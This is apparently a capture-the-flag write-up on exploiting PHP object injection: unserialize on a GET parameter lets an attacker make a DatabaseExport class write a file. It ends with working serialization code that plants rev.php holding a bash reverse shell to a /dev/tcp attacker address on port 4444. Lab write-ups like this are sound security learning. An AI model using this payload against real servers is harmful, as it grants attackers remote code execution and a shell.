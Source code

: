 ```php
?>
```

# Foothold

A few things here. First of all there is user-defined input from `$_GET['arepo']` which means that we can freely provide it using `sator.php?arepo=INPUT`. Secondly the interesting thing there is that they are using `unserialize`.

Reading https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection  it seems to be that we can take advantage of unsafe object unserialization to modify the DatabaseExport class.

According to the page:
```
The application must have a class which implements a PHP magic method (such as __wakeup or __destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes.
```


The class does use `__destruct` and the class is declared when `unserialize` is called. So it's definitely vulnerable to object injection.

After some reading I realised that it would be possible to modify the class `$user_file` and `$data`. Due to this, we can write our own  data into our own file!

I plan to take advantage of this to start a reverse shell on the server.

First of all we need to serialize our own class with our own variables:


```php
<?php

class DatabaseExport
{
    public $user_file = 'rev.php';
    public $data = '';
}

print(serialize(new DatabaseExport()))

?>
```

our `$user_file` will be where we want to write our shell, I used `rev.php`. Our data will be the code of our reverse shell.

The final code is like this:

```php
<?php
class DatabaseExport {
    public $user_file = 'rev.php';
    public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.?.?/4444 0>&1\'"); ?>';
}

print urlencode(serialize(new DatabaseExport()));

?>
```
